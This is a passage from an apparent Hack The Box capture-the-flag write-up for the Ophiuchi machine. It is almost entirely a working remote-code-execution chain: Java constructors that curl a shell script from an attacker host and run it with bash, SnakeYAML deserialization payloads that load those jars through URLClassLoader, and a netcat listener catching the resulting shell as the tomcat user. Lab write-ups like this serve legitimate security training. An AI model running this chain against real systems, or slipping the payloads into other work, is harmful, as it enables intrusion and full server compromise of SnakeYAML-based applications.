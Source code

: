 First, Change again ```AwesomeScriptEngineFactory``` method to:
```java
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("curl http://10.10.14.14:8000/shell.sh -o /tmp/shell.sh");
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```
Compile it with name ```getshell.jar```

Create another jar by change ```AwesomeScriptEngineFactory``` method to:
```java
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("/bin/bash /tmp/shell.sh");
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```
Compile it with name ```runshell.jar```.

Start ```nc``` listener:
```console
┌─[evyatar@parrot]─[/hackthebox/Ophiuchi/yaml-payload]
└──╼ $nc -lvp 4242
listening on [any] 4242 ...
```

And put the following payloads on port ```8080```:
```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.14:8000/getshell.jar"]
  ]]
]
```

And then:
```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.14:8000/runshell.jar"]
  ]]
]
```

```console
┌─[evyatar@parrot]─[/hackthebox/Ophiuchi/yaml-payload]
└──╼ $nc -lvp 4242
listening on [any] 4242 ...
10.10.10.227: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.227] 41688
bash: cannot set terminal process group (805): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@ophiuchi:/$ ls /home
admin
```
